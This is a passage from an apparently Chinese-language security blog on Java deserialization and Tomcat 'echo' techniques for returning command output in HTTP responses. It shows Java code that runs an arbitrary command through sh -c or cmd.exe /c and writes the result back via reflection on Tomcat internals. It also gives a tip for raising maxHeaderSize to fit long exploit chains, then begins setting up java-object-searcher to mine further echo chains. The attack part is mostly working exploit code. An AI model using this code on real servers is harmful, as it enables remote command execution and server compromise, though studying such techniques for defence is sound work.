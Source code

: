 ```java
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            w.write(output);
            w.flush();
            Field responseField = ResponseFacade.class.getDeclaredField("response");
            responseField.setAccessible(true);
            Field usingWriter = Response.class.getDeclaredField("usingWriter");
            usingWriter.setAccessible(true);
            usingWriter.set(response2, Boolean.FALSE);
        }
    }
}
```
![](https://img-blog.csdnimg.cn/3521355cceeb4f34b57b89ec0af5079a.png)
#### 局限性
利用链过长，会导致http包超长，可先修改`org.apache.coyote.http11.AbstractHttp11Protocol`的maxHeaderSize的大小，这样再次发包的时候就不会有长度限制

涉及到较多的Tomcat内部类 ，所以Tomcat版本实现改变的话就会有问题


## 半自动化挖掘
[ 半自动化挖掘request实现多种中间件回显 ](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[Java安全之挖掘回显链](https://www.cnblogs.com/nice0e3/p/14897670.html)

项目地址：[https://github.com/c0ny1/java-object-searcher](https://github.com/c0ny1/java-object-searcher)
将java-object-searcher导入到我们的web项目
![](https://img-blog.csdnimg.cn/e9c9eb0158cf49da81b0401d0d46d234.png)
创建一个新的Controller，写入广度优先搜索的代码
```java
import com.example.memshell.josearcher.entity.Keyword;
import com.example.memshell.josearcher.searcher.SearchRequstByBFS;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

@Controller
@RequestMapping("/app")
public class SearchController {
    @RequestMapping("/search")
    @ResponseBody
    public void testDemo(){
        List<Keyword> keys = new ArrayList<>();
        Keyword.Builder builder = new Keyword.Builder();
        builder.setField_type("nnn");
        keys.add(new Keyword.Builder().setField_type("ServletRequest").build());
        keys.add(new Keyword.Builder().setField_type("RequstGroup").build());
        keys.add(new Keyword.Builder().setField_type("RequestInfo").build());
        keys.add(new Keyword.Builder().setField_type("RequestGroupInfo").build());
        keys.add(new Keyword.Builder().setField_type("Request").build());
        //新建一个广度优先搜索Thread.currentThread()的搜索器
```